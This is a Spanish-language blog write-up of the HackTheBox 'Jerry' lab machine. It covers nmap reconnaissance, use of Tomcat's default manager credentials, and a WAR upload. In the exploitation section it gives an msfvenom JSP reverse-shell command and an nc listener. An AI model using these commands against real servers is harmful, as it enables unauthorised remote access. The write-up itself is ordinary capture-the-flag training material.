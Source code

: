 ```yaml
---
layout:   post
title:    "Write Up Jerry."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy, Windows, Upload, Tomcat, Payload, Java, RCE, Default-Credentials, Write-Up-Machine, Starting-Point, eJPT]
---
```

![list](/assets/img/jerry/Captura de pantalla (140).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.95 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-00-57.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p8080 -sV -sC 10.10.10.95 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-02-30.png){:.lead width="800" height="100" loading="lazy"}


***
### Investigación

Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Ispeccionamos la web.

![list](/assets/img/jerry/Kali-2022-09-08-22-06-39.png){:.lead width="800" height="100" loading="lazy"}

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb.

![list](/assets/img/jerry/Kali-2022-09-08-22-04-28.png){:.lead width="800" height="100" loading="lazy"}

En google podemos bucar claves por defecto segun que tecnologias averiguemos o 

simplemente podemos hacer user/pass desing o (usuario y contraseñas por defecto) 

podemos usar burpsuite para inteceptar peticiones y averiguar mas datos pero en 

este caso la cxredeciales estan expuestas 

`user=tomcat pass=s3cret`.

![list](/assets/img/jerry/Kali-2022-09-08-22-11-20.png){:.lead width="800" height="100" loading="lazy"}

***
## Analisis de vulnerabilidades

Ingresamos al panel de configuiaracion  e igual ispeccionamos la pagina es algo 

que deberemos hacer habitual en cada maquina que nos dipongamos a explotar, vemos 

la posibilidad de subir archivos .war, por lo que podemos explotar esa ventaja ,

podreos intentar subir cualaquier archivo a modo de prueba pero no nos deja. 

![list](/assets/img/jerry/Kali-2022-09-08-22-13-45.png){:.lead width="800" height="100" loading="lazy"}

***
## Explotacion

Por lo que crearemos un payload o (carga util) con mfsvenom para cosegir una 

reverse shell. 

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f war > shell.war
```
El LHOST Y LPORT deberan ser la ip de tu VPN y un puerto que tu quieras. 
{:.note}

La subimos al srvidor y con el listener a la ecucha `nc -lvnp 443` damos clic 

donde dice el nombre de nuestra carga util lo que hara que se conecte a nuestro 

nc otrogandonos la reverse shell.

***
## Escalacion de privilegios

Jerry no tiene escalacion de privilegios ya que ya somos root ,pero podemos 

bucar la flag, este caso se ecuentar en el mismo archivo las dos flags en el 

escritorio.

![list](/assets/img/jerry/Kali-2022-09-08-23-24-48.png){:.lead width="800" height="100" loading="lazy"}

```bash
🎉 Felicitaciones ya has comprometido Jerry de HackTheBox 🎉
```
{:.centered}
***
Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}